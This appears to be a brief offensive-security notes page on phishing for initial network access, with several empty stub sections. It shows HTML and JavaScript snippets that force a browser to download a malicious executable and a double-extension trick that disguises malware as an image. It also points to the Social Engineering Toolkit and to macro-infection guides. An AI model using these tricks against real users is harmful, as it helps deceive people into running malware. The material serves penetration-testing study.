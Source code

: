 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".


## ActiveX


The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:


```
setoolkit
```
## Spear phishing

## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/

## Reference:
https://www.youtube.com/watch?v=NTdthBQYa1k